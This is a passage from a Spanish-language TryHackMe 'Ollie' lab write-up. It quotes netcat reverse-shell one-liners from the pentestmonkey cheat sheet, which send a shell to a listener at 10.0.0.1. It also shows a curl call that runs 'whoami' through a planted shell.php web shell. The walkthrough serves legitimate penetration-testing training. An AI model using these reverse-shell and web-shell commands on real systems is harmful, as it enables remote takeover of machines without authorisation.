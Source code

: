   ![page](/assets/images/thm-writeup-ollie/ollie_page5.png "ollie-page5")

### 3.1 Reverse shell

- Preparamos la revershell siguiendo las instrucciones de la web: <https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>:
<Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
nc -e /bin/sh 10.0.0.1 1234
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f>

~~~go
└─# curl http://10.10.188.252/shell.php\?cmd\=whoami
1	 www-data
 	3	4
~~~

- Preparamos la rshell y la codificamos en ***URL Encode*** en la página ***CyberChef***
